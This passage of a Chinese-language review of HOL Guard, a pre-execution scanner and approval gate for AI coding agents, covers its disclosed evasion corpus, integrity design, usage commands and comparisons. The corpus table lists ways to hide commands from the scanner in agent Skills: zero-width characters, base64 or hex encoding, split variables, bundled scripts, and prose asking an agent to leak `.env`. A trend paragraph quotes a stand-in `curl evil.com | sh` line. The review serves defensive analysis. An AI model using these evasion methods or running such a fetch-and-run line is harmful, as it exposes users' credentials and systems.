| `zero-width-joined-command` | Unicode | **漏检** | 命令和文件名里塞零宽空格 |
| `html-comment-hidden` | 隐藏内容 | 检出 | 命令藏在 HTML 注释里 |
| `remote-fetched-payload` | 远程载荷 | 检出 | 指令把下载的脚本 pipe 进 shell |
| `base64-decoded-command` | 编码 | **漏检** | 命令 base64 编码后解码执行 |
| `ansi-c-escaped-command` | 编码 | **漏检** | 命令名用 ANSI-C 十六进制转义 |
| `split-variable-command` | 拆分流 | **漏检** | 命令和文件名由 shell 变量拼出来 |
| `payload-in-bundled-script` | 间接 | **漏检** | Skill 跑一个内置 shell 脚本，命令藏在脚本里 |
| `python-exec-base64` | 间接 | **漏检** | 内置 Python 脚本执行 base64 载荷 |
| `natural-language-exfil` | 自然语言 | **漏检** | 纯散文让 Agent 把 `.env` 抄进回复里 |
| `benign-security-advice` | 良性对照 | 干净 | 只是提到风险模式而不要求执行 |

**结果：11 个规避案例（其中 1 个是良性对照），4 个检出，7 个漏检。**

更值得注意的是这套机制本身的设计：

```text
A missed case is a known gap, recorded on purpose. When the scanner learns to catch one,
the test fails until the corpus and this page are updated together.
```

**漏检是「有意记录的已知缺口」**。扫描器学会抓某个案例时，测试会失败，强制开发者同时更新语料库和文档页。

**这是我在所有开源安全项目里见过的最诚实的做法之一。** 绝大多数项目会直接把这类文档删掉，或者干脆不测。

### 9.2 各漏检案例的成因分析

把 7 个漏检按成因归类，会看到一个清晰的**能力边界**：

| 成因 | 案例 | 为什么抓不到 |
| --- | --- | --- |
| **编码层数** | `base64-decoded-command` / `ansi-c-escaped-command` | 静态扫描只看字面量；解码是运行时行为 |
| **间接执行** | `payload-in-bundled-script` / `python-exec-base64` | 真正的命令不在被扫描的清单文件里 |
| **动态拼接** | `split-variable-command` | 命令名在运行时才确定，静态不可知 |
| **Unicode 混淆** | `zero-width-joined-command` | 零宽字符对人眼不可见、对模型可见 |
| **纯自然语言** | `natural-language-exfil` | **根本没有命令**——散文里就能泄密 |

最后一行最值得警惕：文档给出了一个现实的边界说明：

> For `remote-fetched-payload`, the scanner flags the download-and-run instruction. It cannot see what the downloaded script would do.

**下载并执行类的指令能被标记，但下载后的脚本做什么，静态扫描无能为力。**

### 9.3 源码注释里的其他自陈限制

除了语料库文档，Rust 源码注释里也有多处诚实的边界声明：

```rust
// 来自 rust/crates/guard-hook-core/src/lib.rs:637-639
/// Review the text the host presented on its own. Only complete output whose
/// digest matches the reference is reviewed; a partial excerpt is never
/// promoted to original output.
```

```rust
// 来自 rust/crates/guard-hook-core/src/lib.rs:833-835
// Truncated inline output cannot prove the original bytes. Keep
// the fail-closed decision instead of allowing it without proof.
```

**「截断的内联输出无法证明原始字节，保留 fail-closed 判定而不是无证据放行」**——这是把「证据不足」和「安全」正确区分开的实现。

```rust
// 来自 rust/crates/guard-hook-core/src/lib.rs:811-813
// OMP directory reads are names-only and intentionally have no source-file
// ...
// PreToolUse cannot make a sensitive root's listing model-visible.
```

**「目录读取只有文件名，PreToolUse 无法把敏感根目录的列表暴露给模型」** —— 明确承认了这个攻击面**没被堵上**，而不是假装堵上了。

Rust 侧还有一处 TODO 注释坦承 Python 侧的依赖尚未移植：

```rust
// 来自 rust/crates/guard-command/src/aibom_trust_metadata.rs:5-16
//! TODO(deps): Python lazily resolves `.inventory_contract`
//! (`_normalize_inventory_datetime`), `..checks.skill_security`
//! (`resolve_skill_security_context`), `..trust_instruction_scoring`
//! (`build_instruction_domain`), ...
//! Until those ports land, the module keeps those surfaces behind the
//! `TrustScoringApi`, `GuardEvidenceHashApi`, and `TrustMetadataBoundaryApi`
//! seams plus a local mirror of the inventory-contract datetime normalizer.
```

处理方式很规范：**用 trait seam（缝）隔离未移植的依赖**，而不是留一个 TODO 让后人踩坑。

### 9.4 策略完整性校验的降级模式

策略快照用 HMAC-SHA256 + canonical JSON 做完整性保护：

```rust
// 来自 rust/crates/guard-policy-snapshot/src/policy_integrity.rs:127-141
    let mut signing_row = row.clone();
    signing_row["integrity_generation"] = Value::from(generation);
    let payload = canonical_policy_payload(&signing_row, Some(POLICY_INTEGRITY_VERSION))
        .ok_or("policy_row_unserializable")?;
    let payload_hash = digest_bytes(&payload);
    let payload_mac = hex::encode(hmac_sha256_raw(key, &payload));
    Ok(serde_json::json!({
        "integrity_version": POLICY_INTEGRITY_VERSION,
        "integrity_generation": generation,
        "payload_hash": payload_hash,
        "payload_mac": payload_mac,
        "integrity_key_id": key_id,
        "signed_at": signed_at,
    }))
```

验证时有一个显式的**降级模式**：

```rust
// 来自 rust/crates/guard-policy-snapshot/src/policy_integrity.rs:157-165
    if degraded_mode {
        return PolicyIntegrityVerification {
            status: "degraded_mode",
            payload_hash: stored_payload_hash,
            key_id: stored_key_id,
            message: Some("policy_integrity_backend_unavailable"),
            generation: int_or_none(&mapping_value(row, "integrity_generation")),
        };
    }
```

**注意它没有在这里返回 `tampered` 或 `ok`，而是返回第三种状态 `degraded_mode`。** 验证结果有四种：正常、缺元数据、版本不支持、篡改、降级——**每种都有独立状态码**。这比二元「通过 / 失败」精确得多，也便于上层做正确决策。

### 9.5 审批不变量：安全产品最容易做砸的地方

`docs/guard/approval-invariant.md` 的开头就是产品哲学：

> Every command Guard pauses for review can be approved. The user always sees **Allow once** and **Always allow**, and an approved command runs. Guard does not second-guess the answer.
>
> This is a product rule, not an implementation detail. Do not add a code path that pauses a command without offering both choices, or that ignores an approval the user has given.

**「每个被暂停的命令都必须能被批准」**——听起来简单，但恰恰是安全产品最常做砸的地方：一个永远弹审批框但没有「允许」按钮的系统，用户会直接关掉防护。

文档还定义了**哈希覆盖范围**与**审批终止条件**：

```text
An approval ends only when:
- the user removes it, or
- the command's hash changes.

An approval saved under the command hash survives a rule change, a new extension,
a different reason code or a change of environment.
```

**「规则改了、新扩展加了、理由码变了、环境变了，之前的批准依然有效——只要命令哈希没变」**。这既保证了安全（命令变了要重新问），又保证了可用性（规则升级不会把用户锁在审批循环里）。

以及一条很微妙的边界处理：

```text
A prompt has no execution binding, so a review held at the prompt could offer neither choice.
When a prompt's only risks are ones a later tool call carries out ...,
Guard sends it with a notice and reviews that tool call instead, with both choices.
```

**「prompt 没有执行绑定，所以在 prompt 层暂停根本给不出两个选项——那就把审查推到后续 tool call 上。」** 这是把「不变式」和「产品可用性」放在一起权衡的典范。

---

## 十、与同类项目对比

| 维度 | **HOL Guard** | nono | Microsoft AGT | OpenShell | E2B |
| --- | --- | --- | --- | --- | --- |
| 核心问题 | **进笼子之前先验货** | Agent 跑在哪 | Agent 行为被什么管控 | 策略形式化可证 | 云端执行环境 |
| 防护单位 | **包 / 插件 / Skill / MCP / 命令** | 进程 | 工具调用 API | 策略表达式 | 虚拟机 |
| 决策模型 | **6 值严重度格 + 单调性校验** | CapabilitySet（能力） | 5 原语 ALLOW/DENY/AUDIT/... | Z3 求解 | 快照 / 恢复 |
| 实现语言 | **Rust（29 crates）+ Python** | Rust | Python/Rust/TS/.NET/Go | Rust | Python |
| 供应链 | **AI BoM + 信任评分 + 签名验证** | Sigstore 集成 | — | — | — |
| 自陈缺陷 | **✅ 量化披露 7 个漏检** | ✅ 注释自陈 | ✅ 注释自陈 | — | — |
| 部署形态 | 本地 CLI + 本地 dashboard | 本地二进制 | SDK 库 | 本地运行时 | 云端服务 |

### 10.1 与 nono：正交的双层防护

nono 回答「**Agent 跑在哪个沙箱里**」；HOL Guard 回答「**要装进这个沙箱的东西本身干不干净**」。

两者不重叠，可以叠加。nono 用 Landlock / Seatbelt 做 syscall 级拦截，HOL Guard 在更早的**制品层**（包、插件、Skill）就拦。

### 10.2 与 Microsoft AGT：策略粒度的差别

AGT 的核心是 **ACS（Agent Control Specification）**，五条干预点 + 三铁律（Stateless / Deterministic / Fail-Closed），五档决策原语。HOL Guard 的六值格在形状上与 AGT 的五原语相似，但**多了一个 AGT 没有的东西**：

- AGT 的原语是**独立的**（ALLOW / DENY / AUDIT / ESCALATE / DEFER）
- HOL Guard 的六值格是**全序**的，可以直接比较 `severity()`，因此能做「最严者胜」和「单调性校验」这两件 AGT 做不到的事

**全序 vs 无序原语**是两者最实质的架构差异。全序让「决策不可被削弱」成为一条可机器验证的不变式。

### 10.3 与 OpenShell：形式化 vs 经验式

OpenShell 用 Z3 SMT 对策略做形式化验证，理论上更强。HOL Guard 走的是**工程化**路线：不追求策略的可证明性，而是追求「**每一层的产出都有可审计的证据**」——扫描结果、信任分数、回执、组合轨迹、规则摘要。

**两种思路都成立**：形式化路线适合策略本身是核心资产的企业；工程化路线适合策略来源异构（用户配置 + 扩展 + 扫描器 + 记忆）的真实场景。HOL Guard 面对的正是后者。

### 10.4 与传统终端安全（EDR / 容器准入）

| | EDR / 容器准入 | HOL Guard |
| --- | --- | --- |
| 观察对象 | 进程 / 镜像 | Agent 的**意图**（命令文本、工具调用、prompt） |
| 检测时机 | 运行中 | 执行前 |
| 制品语义 | 二进制 | **AI BoM**（含 Skill、Prompt、MCP 配置） |
| 信任模型 | 签名 / 白名单 | **加权信任评分**（多适配器 + 贡献模式） |

**AI BoM 是传统 SBOM 覆盖不到的部分**：一个 `SKILL.md` 里的一段自然语言、一份 `.mcp.json` 里的一个 URL 配置，传统供应链工具完全看不见。

---

## 十一、优缺点分析

### 11.1 架构简洁性 / 扩展性 / 易用性（左侧）

**优势**

1. **六值格 + 全序**是极简而有力的抽象。一个 `severity()` 整数就支撑了「最严者胜」「不可削弱」「下限」三大语义。
2. **扩展机制契约化**：252 个扩展共用一套 schema，新增一个领域（Borg、Rclone、AWS…）只需一个声明式 JSON + 一个信任契约，**不改核心代码**。
3. **安装门槛低**：`pipx install hol-guard` + `hol-guard init`，首启向导自动发现已装的 Agent。
4. **本地优先**：核心判定全在本地 Rust 进程，云端（Guard Cloud）是可选的。
5. **Python ↔ Rust 双端口径对齐**：Rust 侧注释明确要求「Every validator returns the Python `ValueError` message verbatim so callers surface identical reasons」——迁移不改变行为语义。

**代价**

1. **概念密度高**：`GuardAction` 6 值 + `composition_trace` 10+ 字段 + 决策下限 + 信任评分 + AI BoM，新用户认知负担不低。
2. **文档 183 个文件**在 `docs/guard/` 下，深度学习曲线陡峭。
3. **架构分层有重叠**：`guard/adapters` / `guard/shims` / `guard/consumer` / `guard/policy` / `guard/receipts` / `guard/runtime` / `guard/store` 七个子系统，对一个 7 个月的项目来说略重。

### 11.2 性能 / 复杂度 / 维护性（右侧）

**优势**

1. **Rust 常驻进程**：命令解析和匹配在热路径上，`serde_json::Value` 零拷贝处理 hook 载荷。
2. **一次性规则摘要**：`rule_digest` 启动时算一次，74 个组件的完整性检查不产生持续开销。
3. **`OnceLock` 缓存契约**：`rule_contract()` 用 `OnceLock::get_or_init`，多线程下只算一次。
4. **预算化解析**：字节/token/段/深度/载荷/匹配数/时间七类独立预算——防资源耗尽。
5. **主动的持续维护**：CHANGELOG 560KB、89 个 open issue 仍活跃、最近推送就在今天。

**代价**

1. **Rust 迁移未完成**：`aibom_trust_metadata.rs` 的 TODO 注释坦承多个 Python 侧信任评分依赖尚未移植，用 trait seam 兜住——**这是技术债，会持续产生「两边行为不一致」的风险**。
2. **规则集维护成本**：74 个组件的 SHA-256 契约意味着**任何一处改动都要重算并更新预期值**，CI 摩擦不小。
3. **扫描器漏检率仍高**：11 个案例 7 个漏检，尤其是 `natural-language-exfil`（纯散文泄密）——**这不是工程能力问题，是静态分析的固有边界**。
4. **多 Harness 适配矩阵**：16 个 Harness × 6 类事件 × 各自的阻断语义，任何一个 Harness 改版都可能引入静默失效。

---

## 十二、实践：本地跑起来

### 12.1 安装与初始化

```bash
# 需要 Python 3.10+ 与 pipx
pipx install hol-guard

# 首启向导：发现已安装的 Agent，逐步配置防护
hol-guard init

# 检查安装
hol-guard --version
hol-guard status
```

### 12.2 接入一个 Agent

```bash
# 为 Codex 安装防护
hol-guard install codex

# 干跑：记录当前制品状态但不真的启动
hol-guard run codex --dry-run

# 正式启动
hol-guard run codex
```

**关键安全设计**：对 Codex，Guard 安装**原生 pre-tool hook**，并且**如果这些 hook 缺失或被禁用，Guard 会拒绝受管启动**（refuses a managed launch if those hooks are missing or disabled）。

### 12.3 日常运维命令

```bash
# 查看保护状态
hol-guard status

# 诊断某个 Agent 的集成
hol-guard doctor codex

# 启动前审查变更
hol-guard diff codex

# 处理待审批
hol-guard approvals
hol-guard approvals approve <request-id>
hol-guard approvals deny <request-id>

# 读决策历史（回执）
hol-guard receipts

# 列出被追踪的制品
hol-guard inventory

# 导出 AI Bill of Materials
hol-guard abom --format json

# 供应链扫描
hol-guard supply-chain sync
hol-guard supply-chain scan
hol-guard supply-chain explain minimist@1.2.5 --ecosystem npm
```

### 12.4 不执行地理解一条命令的判定

这是我觉得最有用的一个特性——**可以在不执行命令、不产生审批的情况下看 Guard 怎么判**：

```bash
# 测试一条命令
hol-guard command test 'rm -rf ./build'

# 解释为什么这么判
hol-guard command explain 'git clean -ndx'

# 以 JSON 查看扩展覆盖
hol-guard command extensions command.git --json
```

`command explain` 的存在意义在于：**策略调优应该是可观测的，而不是靠反复试错。**

### 12.5 作为插件维护者的扫描器

```bash
pipx install plugin-scanner

plugin-scanner scan .
plugin-scanner lint .
plugin-scanner verify .

# SARIF 输出，接入 CI
plugin-scanner scan . --format sarif --output plugin-scanner.sarif
plugin-scanner scan . --fail-on-severity high
```

CI 集成：

```yaml
name: Plugin security
on: [push, pull_request]

permissions:
  contents: read

jobs:
  scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@df4cb1c069e1874edd31b4311f1884172cec0e10 # v6
      - uses: hashgraph-online/ai-plugin-scanner-action@fdb49f9d85321a2ced2933301b395dd3c1ce9c8f # v1.2.631
        with:
          plugin_dir: "."
          min_score: 80
          fail_on_severity: high
```

---

## 十三、端到端数据流



---

## 十四、趋势判断与工程经验提炼

### 14.1 五个趋势

**趋势 1：「AI 供应链」会成为独立于「软件供应链」的品类。**

传统 SBOM 描述的是二进制依赖；AI BoM 描述的是 **Skill（Markdown + 自然语言）、Prompt 模板、MCP 配置、插件清单**。这些制品**没有编译产物、没有二进制哈希、没有 CVE**——`SKILL.md` 里的一段话既可以是安全提示，也可以是 `curl evil.com | sh`。传统工具完全看不见。HOL Guard 的 AI-BoM 与信任评分是这个新品类的第一个完整工程化尝试。

**趋势 2：Agent 安全会从「运行沙箱」前移到「制品准入」。**

nono / OpenShell / E2B 都在解决「Agent 跑在哪」。但 CSA 2026 年 6 月的研究已经证明：装进去的东西可以不干净，而沙箱只保证「关起来的东西不逃逸」，不保证「关起来的东西无害」。**准入 + 隔离**双层是必然形态。

**趋势 3：「决策不可被削弱」会成为 AI 权限系统的基本不变式。**

在多来源决策的系统里（策略 + 扫描 + 运行时检测 + 记忆 + 扩展），**最危险的 bug 永远是「弱来源稀释强来源」**。HOL Guard 用全序严重度格 + `composition_trace` 校验把这件事变成了机器可验证的不变式。这个模式可以直接搬到任何多来源策略系统。

**趋势 4：诚实披露漏检会成为安全产品的信任货币。**

HOL Guard 把「11 个案例 7 个漏检」写在文档首页，并让 CI 在扫描器变强时**强制**同步更新文档。这个做法短期内让项目看起来「更弱」，长期看是**最强的信任建立方式**——因为它把「能不能信」这个问题的答案量化成了一个可验证的指标。

**趋势 5：安全产品的 UX 决定采纳率。**

「每个被暂停的命令都必须能被批准，且 Always allow 必须真的生效」——这条产品规则的价值可能超过它后面几十行 Rust 代码。**一个弹审批框但用户点不了「允许」的安全系统，最终一定被关掉。**

### 14.2 可直接复用的工程经验

| # | 经验 | 出处 |
| --- | --- | --- |
| 1 | **未知输入默认 fail-to-review**，而不是 fail-to-allow | `action_lattice.rs` `DEFAULT_UNKNOWN_GUARD_ACTION` |
| 2 | **严重度用全序整数**，让「最严者胜」和「不可削弱」可机器验证 | `decision_lattice.rs` `severity()` |
| 3 | **决策必须携带完整来源轨迹**，并用校验器证明未被削弱 | `authoritative_decision.rs` `validate_composition_trace` |
| 4 | **唯一豁免通道是显式人工审批**，不是配置文件 | `authoritative_decision.rs` `explicit_approval_override` |
| 5 | **递归白名单**拒绝未知字段，防止嵌套藏动作 | `reject_unknown_composition_action_fields` |
| 6 | **域分隔**做多组件摘要，防止跨上下文混淆 | `guard-rule-contract/src/lib.rs` `RULE_CONTRACT_DOMAIN` |
| 7 | **超时 = 不确定 ≠ 安全**，超时必须 fail-closed | `command-extension-threat-model.md` |
| 8 | **解析器不确定 + 敏感证据 → 动作升到 review** | `command-extension-precedence.md` 不变式 4 |
| 9 | **扩展只能抬下限，不能授予 allow** | `command-extension-precedence.md` |
| 10 | **把漏检写成 CI 强制同步的语料库** | `scanner-evasion-corpus.md` |
| 11 | **审批哈希绑定命令内容**，规则变更不影响既有审批 | `approval-invariant.md` |
| 12 | **prompt 层无执行绑定时，把审查推到 tool call** | `approval-invariant.md` |

### 14.3 适用与不适用

**适合引入的场景**

- 企业内网中让 Agent 接触真实凭据、真实内网服务
- 有自建插件 / Skill 生态，需要准入与信任评分
- 受监管行业需要「可审计的决策证据链」（回执 + AI-BoM + 组合轨迹）
- 想在 CI 里对 Agent 插件做安全门禁

**不适合的场景**

- 单人使用、无凭据、无外部依赖的轻量 Agent（overhead 偏高）
- 需要在**任意 Agent 内**都强制生效的场景——Guard 依赖各 Harness 的 hook 事件，16 个 Harness 的覆盖深度并不一致
- 期待静态扫描能拦住所有攻击的场景——**7/11 的漏检率说明它不能**

---

## 十五、总结

HOL Guard 不是又一个 Agent 沙箱。它补的是一块此前无人认领的空白：**Agent 生态的「软件供应链」——在制品进入运行时之前，先给它做一次体检。**

它贡献了三个其他项目没做过的东西：

**① 决策的单调性。** 六值严重度格 + `composition_trace` 校验器，把「最终决策不得弱化任何权威来源」变成了一条机器可验证的不变式。唯一豁免通道是显式人工审批。这是本项目最值得学习的部分，而且**可以移植到任何多来源决策系统**。

**② 规则引擎的自我证明。** 74 个 Rust 组件的域分离 SHA-256 摘要，随发布物分发。规则集被改动，摘要就变。这是「检测规则指纹」——把 SLSA 的思路搬到了检测逻辑层。

**③ 诚实的缺陷披露。** 11 个规避案例，4 检出 7 漏检，逐条列出成因，并让 CI 强制同步文档。**这可能是本项目最有价值、也最难被复制的部分。**

从趋势看，AI 供应链安全会在 2027 年成为独立品类；而「决策不可被削弱」这条不变式，我认为会是多 Agent 权限系统的通用设计模式。

**最后一句给决策者的话**：HOL Guard 证明了「给 Agent 装杀毒软件」在工程上可行，也证明了**它拦不住所有东西**。它的价值不在于堵住每一个洞，而在于**把每个洞的位置、原因和当前状态都写在明处**——让你能诚实地评估风险，而不是假装风险不存在。

---

## 附录：关键资源

| 资源 | 地址 |
| --- | --- |
| GitHub 仓库 | https://github.com/hashgraph-online/hol-guard |
| 官网 / 文档 | https://hol.org/guard |
| PyPI | https://pypi.org/project/hol-guard/ |
| Plugin Scanner | https://pypi.org/project/plugin-scanner/ |
| 容器镜像 | `ghcr.io/hol/hol-guard` |
| 架构文档 | `docs/guard/architecture.md` |
| 审批不变量 | `docs/guard/approval-invariant.md` |
| 扩展威胁模型 | `docs/guard/command-extension-threat-model.md` |
| 扩展优先级与决策下限 | `docs/guard/command-extension-precedence.md` |
| Harness 支持矩阵 | `docs/guard/harness-support.md` |
| **扫描器规避语料库** | `docs/trust/scanner-evasion-corpus.md` |
| 信任评分规范 | `docs/trust/plugin-trust-draft.md` / `skill-trust-local.md` / `mcp-trust-draft.md` |
| License | Apache-2.0 |

### 源码索引（本文引用位置）

| 文件 | 引用内容 |
| --- | --- |
| `rust/crates/guard-contracts/src/decision_lattice.rs:37-79` | 六值 `GuardAction` + `severity()` + `LATTICE` |
| `rust/crates/guard-command/src/action_lattice.rs:12-131` | 未知动作归一化、`value_type_name`、`most_restrictive_guard_action` |
| `rust/crates/guard-contracts/src/authoritative_decision.rs:491-609` | `validate_composition_trace` 单调性校验器与三条不变式 |
| `rust/crates/guard-rule-contract/src/lib.rs:7-176` | 域分离 `rule_digest` 与 74 组件契约测试 |
| `rust/crates/guard-hook-core/src/lib.rs:637-659` / `811-835` | 截断输出 fail-closed、OMP 目录读取的已知边界 |
| `rust/crates/guard-policy-snapshot/src/policy_integrity.rs:120-199` | HMAC 策略完整性 + `degraded_mode` 状态 |
| `rust/crates/guard-command/src/aibom_trust_metadata.rs:5-16` | Python 依赖未移植的 TODO 与 trait seam |
| `docs/guard/architecture.md:16-45` | 运行时七子系统划分与 6 步评估流程 |
| `docs/guard/approval-invariant.md` | 审批不变量与哈希覆盖范围 |
| `docs/guard/command-extension-precedence.md:18-39` | 决策下限表与六条不变式 |
| `docs/guard/command-extension-threat-model.md` | 信任边界表与威胁对策 |
| `docs/trust/scanner-evasion-corpus.md` | 11 个规避案例的自陈漏检表 |
